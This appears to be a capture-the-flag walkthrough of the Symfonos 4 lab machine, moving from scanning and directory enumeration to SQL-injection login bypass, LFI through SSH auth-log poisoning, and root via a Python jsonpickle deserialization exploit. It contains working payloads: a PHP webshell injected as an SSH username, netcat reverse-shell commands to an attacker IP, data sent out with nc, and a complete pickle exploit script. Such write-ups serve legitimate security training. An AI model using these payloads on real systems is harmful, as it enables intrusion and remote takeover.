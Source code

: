 # SYMFONOS 4

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](./_resources/349aeda966314e6f8d09bcfcbd4a1774.png)
Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](./_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`

![0975e9ea8b8186843034eaa7daa54ebf.png](./_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](./_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](./_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](./_resources/923829f107e945e6b7a41707a66f6ac7.png)
Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](./_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](./_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders
First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](./_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](./_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](./_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](./_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](./_resources/fe456d74e92b491db68c287f7dbedab2.png)
Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](./_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
We can upload LinEnum on the target with python3 and the lib http.server:
![4d63d0022347ed21c3ba7df24c2522c0.png](./_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](./_resources/ab77bd1365544d76b1c000435b81d303.png)
`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](./_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example
We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](./_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](./_resources/5a338a152d2b442590792a507f02c051.png)
We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](./_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](./_resources/454c47d973674ee5a1c0fd8caca828c6.png)
This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](./_resources/48add1eec8404568aa483028b4b3ffb2.png)
Needs encode to base64:

![1581ff27f0379884666328b034bca78e.png](./_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:

![9ff866356191b6a5f8b5598ea0661897.png](./_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:

![7f985f49d2994f98f434e810c1788f65.png](./_resources/24c617101aa14ecfbedb88e5539534f3.png)
 
